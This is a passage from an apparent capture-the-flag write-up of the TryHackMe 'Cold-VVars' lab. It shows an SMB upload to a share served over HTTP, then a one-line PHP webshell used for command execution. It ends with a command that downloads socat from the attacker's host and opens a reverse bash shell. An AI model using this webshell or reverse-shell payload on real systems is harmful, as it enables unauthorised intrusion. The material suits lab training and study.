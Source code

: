 The `note.txt` is the same that we've found in HTTP on port 8080 `/dev/note.txt`.

**Now, let's test if we can upload a file or not:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:56:18(HKT)]
└> touch anything

smb: \> put anything
putting file anything as \anything (0.0 kb/s) (average 0.0 kb/s)
smb: \> dir
  .                                   D        0  Fri Jan 20 17:56:25 2023
  ..                                  D        0  Thu Mar 11 20:52:29 2021
  note.txt                            A       45  Thu Mar 11 20:19:52 2021
  anything                            A        0  Fri Jan 20 17:56:25 2023

┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:56:03(HKT)]
└> curl http://coldvvars.thm:8080/dev/anything
```

We can! And we're able to access the uploaded file in HTTP on port 8080 `/dev/<file>`!

**Armed with above information, we can upload a PHP webshell!**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:57:54(HKT)]
└> echo '<?php system($_GET["cmd"]);?>' > webshell.php

smb: \> put webshell.php
putting file webshell.php as \webshell.php (0.0 kb/s) (average 0.0 kb/s)

┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:58:18(HKT)]
└> curl http://coldvvars.thm:8080/dev/webshell.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Boom! We have Remote Code Execution (RCE)!

Let's get a reverse shell!

- Setup a listener: (I'm using `socat` for stable shell)

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443      
2023/01/20 17:59:19 socat[86628] N opening character device "/dev/pts/1" for reading and writing
2023/01/20 17:59:19 socat[86628] N listening on AF=2 0.0.0.0:443
```

```shell
┌[root♥siunam]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.01.20|17:58:56(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload:

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:57(HKT)]
└> curl http://coldvvars.thm:8080/dev/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```
